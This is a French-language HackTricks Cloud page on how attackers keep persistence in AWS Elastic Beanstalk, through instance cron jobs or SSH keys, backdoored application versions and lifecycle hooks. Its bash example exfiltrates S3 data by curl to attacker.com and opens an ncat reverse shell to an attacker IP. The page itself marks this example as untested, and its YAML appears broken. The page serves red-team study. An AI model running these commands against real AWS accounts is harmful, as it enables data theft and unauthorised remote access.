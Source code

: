 # AWS - Persistance d'Elastic Beanstalk

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert Red Team AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Elastic Beanstalk

Pour plus d'informations, consultez :

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

### Persistance dans l'instance

Afin de maintenir la persistance à l'intérieur du compte AWS, un **mécanisme de persistance pourrait être introduit à l'intérieur de l'instance** (tâche cron, clé ssh...) afin que l'attaquant puisse y accéder et voler les **informations d'identification du rôle IAM à partir du service de métadonnées**.

### Porte dérobée dans la version

Un attaquant pourrait introduire une porte dérobée dans le code du dépôt S3 afin qu'il exécute toujours sa porte dérobée et le code attendu.

### Nouvelle version avec porte dérobée

Au lieu de modifier le code sur la version actuelle, l'attaquant pourrait déployer une nouvelle version de l'application avec une porte dérobée.

### Abus des hooks de cycle de vie des ressources personnalisées

{% hint style="info" %}
À faire : Test
{% endhint %}

Elastic Beanstalk fournit des hooks de cycle de vie qui vous permettent d'exécuter des scripts personnalisés lors de la provision et de la terminaison de l'instance. Un attaquant pourrait **configurer un hook de cycle de vie pour exécuter périodiquement un script qui exfiltre des données ou maintient l'accès au compte AWS**.
```bash
bashCopy code# Attacker creates a script that exfiltrates data and maintains access
echo '#!/bin/bash
aws s3 cp s3://sensitive-data-bucket/data.csv /tmp/data.csv
gzip /tmp/data.csv
curl -X POST --data-binary "@/tmp/data.csv.gz" https://attacker.com/exfil
ncat -e /bin/bash --ssl attacker-ip 12345' > stealthy_lifecycle_hook.sh

# Attacker uploads the script to an S3 bucket
aws s3 cp stealthy_lifecycle_hook.sh s3://attacker-bucket/stealthy_lifecycle_hook.sh

# Attacker modifies the Elastic Beanstalk environment configuration to include the custom lifecycle hook
echo 'Resources:
AWSEBAutoScalingGroup:
Metadata:
AWS::ElasticBeanstalk::Ext:
TriggerConfiguration:
triggers:
- name: stealthy-lifecycle-hook
events:
- "autoscaling:EC2_INSTANCE_LAUNCH"
- "autoscaling:EC2_INSTANCE_TERMINATE"
target:
ref: "AWS::ElasticBeanstalk::Environment"
arn:
Fn::GetAtt:
- "AWS::ElasticBeanstalk::Environment"
- "Arn"
stealthyLifecycleHook:
Type: AWS::AutoScaling::LifecycleHook
Properties:
AutoScalingGroupName:
Ref: AWSEBAutoScalingGroup
LifecycleTransition: autoscaling:EC2_INSTANCE_LAUNCHING
NotificationTargetARN:
Ref: stealthy-lifecycle-hook
RoleARN:
Fn::GetAtt:
- AWSEBAutoScalingGroup
- Arn' > stealthy_lifecycle_hook.yaml

# Attacker applies the new environment configuration
aws elasticbeanstalk update-environment --environment-name my-env --option-settings Namespace="aws:elasticbeanstalk:customoption",OptionName="CustomConfigurationTemplate",Value="stealthy_lifecycle_hook.yaml"
```
<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks:

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
